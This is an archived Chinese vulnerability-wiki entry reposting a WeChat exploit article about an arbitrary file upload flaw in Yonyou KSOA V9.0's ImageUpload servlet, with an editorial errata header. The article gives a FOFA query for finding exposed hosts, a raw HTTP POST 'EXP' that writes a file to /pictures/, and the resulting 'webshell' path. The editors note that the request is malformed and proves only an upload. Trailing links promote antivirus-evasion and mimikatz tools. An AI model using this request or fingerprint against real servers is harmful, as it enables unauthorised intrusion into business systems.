





# 叮～你有新的速递！某友文件上传漏洞（附 EXP）

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：用友时空KSOA ImageUpload V9.0
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：需上传目录JSP解析/写权限等RCE前提；无官方漏洞公告/准确修复版本，标题匿名而正文明确产品
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. CNVD-2023-08743仅往期推荐，不能绑定本文ImageUpload
2. fofa抽成空间搜索引擎语句但正文有完整app值
3. 原请求带JSESSIONID，是否必需登录未说明
4. HTTP缺头体空行且filename占位反斜杠污染，没有扩展名和可执行内容，1234567只证明上传不能称webshell
5. 需上传目录JSP解析/写权限等RCE前提
6. 无官方漏洞公告/准确修复版本，标题匿名而正文明确产品
7. 推荐列表主体巨大且CVE/免杀工具均非本文漏洞实体

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/fmokpW-Saw1Cwn5Vw6uP_w>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fmokpW-Saw1Cwn5Vw6uP_w)



0x01 前言

用友时空 KSOA 是建立在 SOA 理念指导下研发的新一代产品, 是根据流通企业前沿的 IT 需求推出的统一的 IT 基础架构, 它可以让流通企业各个时期建立的 IT 系统之间彼此轻松对话。用友时空 KSOA 平台 ImageUpload 处存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。

0x02 影响版本

```
用友 KSOA V9.0

```

0x03 漏洞复现

FOFA 空间搜索引擎语句  

```
app="用友-时空KSOA"

```



登录页面是这个酱紫



EXP：

```
POST /servlet/com.sksoft.bill.ImageUpload?filename=\{\{文件名随便起\}\}&filepath=/ HTTP/1.1
Host:ip:port
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D7B9314CC6B287CBD4D4F700211212E3
Connection: close
Content-Length: 7
1234567

```



Webshell 地址：  

```
http://ip/pictures/\{\{文件名随便起\}\}

```



0x04 修复方案

```
建议及时更新至最新版本

```

  

往期推荐  

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247521495&idx=1&sn=caac7e98e96267c6e24e740f1bcefd79&chksm=ce643e4ef913b7586a9525fe0ed4fa5e5b3114bc2d0fbc2b278387e860b1e55ca4c656adf70b&scene=21#wechat_redirect)[【漏洞系列】叮~ 你有新的速递！某软 RCE 漏洞（附 EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484930&idx=1&sn=5999d0d9dcc565490627aba8b2d9374a&chksm=cf51a4a8f8262dbec92c5e2a8a9fb49b22127d5685c8ee279763a00715984d2db1ef7253f97f&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247521495&idx=1&sn=caac7e98e96267c6e24e740f1bcefd79&chksm=ce643e4ef913b7586a9525fe0ed4fa5e5b3114bc2d0fbc2b278387e860b1e55ca4c656adf70b&scene=21#wechat_redirect)【漏洞系列】[叮～你有新的速递！某友 - OA 信息泄露登录后台（附 EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484939&idx=1&sn=d716dcd24ec991341c0ada7cc329f343&chksm=cf51a4a1f8262db712687929265a9a461f9c07b441abe88f8f4f1b66083572c7396b8780a4f1&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【漏洞系列】[叮～你有新的速递！CNVD-2023-08743 漏洞（附 PoC）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484607&idx=1&sn=5b01c17d9ec3ff0868d963b7f7c6813e&chksm=cf51a615f8262f0389be2dda88ea983918621369b52abeb99e2958591d8d8be109e527978537&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)[【漏洞系列】](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484499&idx=1&sn=e93b049f9085b44e86fbc392cf313e77&chksm=cf51a6f9f8262fefc86b142742bc80f7008893e2b397aa55627006eb112e69e1aea84e5fb7f6&scene=21#wechat_redirect)叮～你有新的速递！CVE-2023-29922 漏洞（附脚本）

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【漏洞系列】[叮～你有新的速递！CVE-2023-22480 漏洞（附 EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484476&idx=1&sn=cc692da2d62e07d4a4d053069b72ef05&chksm=cf51a696f8262f80df9622f9c1da64233d54e07f0936d5a7212744281223a07755bfd0983249&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【漏洞系列】[叮～你有新的速递！CVE-2023-25135 漏洞（附 EXP）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484455&idx=1&sn=a3fb258e716a3b0d11eea3f7e59939bc&chksm=cf51a68df8262f9b5a8cf8fe6fe680ba96a529f1bf9295b380e98e66d4587ea54ef1515a14b1&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)[【漏洞系列】叮~ 你有新的速递！CVE-2023-27524 漏洞利用 Tools](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484438&idx=1&sn=5c90cf5a201e5c55c1dc580e72c4fec1&chksm=cf51a6bcf8262faacc7b300663610c9c5d4bd05e6f5d005668a9656a8cd52a670bf5274852f0&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【免杀系列】[New 免杀工具 NPS 更新 5.21（附下载）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484488&idx=1&sn=01dee9adc0f3fc47a30611878fc26818&chksm=cf51a6e2f8262ff4dbcdb3f41e3bcd70f360acea7aeb26b2a8ce979dc2d842837c0149e60139&scene=21#wechat_redirect)  

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【免杀系列】[TQL！最新 Bypass360 核晶与 Defender 免杀（附下载）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484432&idx=1&sn=990f9164a17faa75bd7bc9533fbae805&chksm=cf51a6baf8262fac77018716e49727e214c3326d836f7f8738253dddb93a4c9b8d90560caf05&scene=21#wechat_redirect)  

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【免杀系列】[Bypass | mimikatz 的 N 种利用 Tools 包含一些免杀方法（附下载）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484415&idx=1&sn=10c1c5954c2042da7bd29cb0ca75034c&chksm=cf51a155f8262843ad79a4af2a23377addf879067161f6fe54b06f85fa25376868a9e8d30ff9&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【免杀系列】[New 一款红队免杀生成 Tools（附下载）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484353&idx=1&sn=b1a2b72c3627b044b4c4a27c5381d705&chksm=cf51a16bf826287d80e81f76c30ccae7d002849bac4ee29f3ac9769d2239f851e533753c1b5e&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【移动安全】[踩坑 | Fiddler 雷电模拟器 4.0 无法抓包（超详细）](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484576&idx=1&sn=5f1324059a625b9196d03cff8fc88efd&chksm=cf51a60af8262f1c59d5db867825b28568cda221ecfb109c9f5e719600bd38a97910d32c56f7&scene=21#wechat_redirect)

[▶](http://mp.weixin.qq.com/s?__biz=Mzg2NDYwMDA1NA==&mid=2247514122&idx=1&sn=43f49b48546886e346132edd28f0fffc&chksm=ce641293f9139b85847fd204bd522c0b3b9326136e355646c0916cd3f6d9fc3bc99aff0438ae&scene=21#wechat_redirect)【移动安全】[牛掰！Xposed 检测绕过总结](http://mp.weixin.qq.com/s?__biz=Mzg4MjgxNjk2NQ==&mid=2247484332&idx=1&sn=87d9f128182c6064755a99b0eb6a3e7a&chksm=cf51a106f8262810386a9033bac2c760533fa9ae008e444987de2d4e1aa7b05971916c686c05&scene=21#wechat_redirect)

觉得内容不错，就点下 “_**赞**_” 和 “_**在看**_”_**  
如侵权请私聊公众号删文**_

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
